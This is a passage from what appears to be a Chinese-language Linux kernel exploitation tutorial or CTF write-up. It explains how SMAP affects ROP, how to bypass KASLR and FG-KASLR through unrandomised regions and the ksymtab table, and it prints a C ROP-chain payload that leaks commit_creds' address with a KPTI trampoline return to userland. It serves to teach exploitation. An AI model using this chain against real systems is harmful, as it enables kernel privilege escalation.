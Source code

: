 最后是smap。还记得rop的两种情况吗？要是是第一种，没啥影响，因为ropchain在kernel stack上，我们完全不需要访问userland的数据。然而第二种就不行了，我们把stack迁移到了userland的代码页，push和pop访问数据会被组阻止。目前这题的漏洞作者暂时不知道该如何利用来写出成功的exp。

kaslr的绕过方式和aslr一模一样。虽然基址随机了，但是每个函数相对于基址的偏移是固定的。泄露一个地址后算出基址再算别的函数即可。

[Function Granular KASLR](https://lwn.net/Articles/824307/)要复杂得多。多启动几次系统然后看/proc/kallsyms，会发现大部分symbol的地址完全随机，和基址没有关系。即，它们的地址与kernel `.text` base不是固定的偏移。

FG-KASLR不是完美的，kernel里的某些区域完全没有随机化。以下是一些有用的未受影响的区域：
1. 从`_text` base到`__x86_retpoline_r15`（`_text+0x400dc6`）中间的函数。commit_creds()和prepare_kernel_cred()不在这里面
2. swapgs_restore_regs_and_return_to_usermode()里的KPTI trampoline
3. kernel symbol table ksymtab，开始于`_text+0xf85198`。这里包含用于计算commit_creds()和prepare_kernel_cred()地址的偏移

ksymtab里一个entry的结构：
```c
struct kernel_symbol {
	  int value_offset;
	  int name_offset;
	  int namespace_offset;
};
```
我们感兴趣的是value_offset，它是ksymtab里symbol entry的地址到symbol真正的地址的偏移。拿entry地址：
```sh
cat /proc/kallsyms | grep ksymtab_commit_creds
cat /proc/kallsyms | grep ksymtab_prepare_kernel_cred
```
这种情况泄露image基地址也要依靠未受影响的区域。附加调试器上查看kernel stack，找到那些属于未受影响区域的地址，然后减去偏移得到基地址。

有基地址后，从ksymtab_commit_creds读出value_offset然后加上基地址就是commit_creds的地址。
```c
void stage_1(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rax_ret; // return address
    payload[off++] = ksymtab_commit_creds - 0x10; // rax <- __ksymtabs_commit_creds - 0x10
    payload[off++] = read_mem_pop1_ret; // rax <- [__ksymtabs_commit_creds]
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)get_commit_creds;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    ssize_t w = write(global_fd, payload, sizeof(payload));
}
```
虽然KPTI trampoline里面有个pop rax而且我们用了个dummy rax填充进去，但是不用担心泄露的`__ksymtabs_commit_creds`没了。函数结束后rax就恢复回来了。
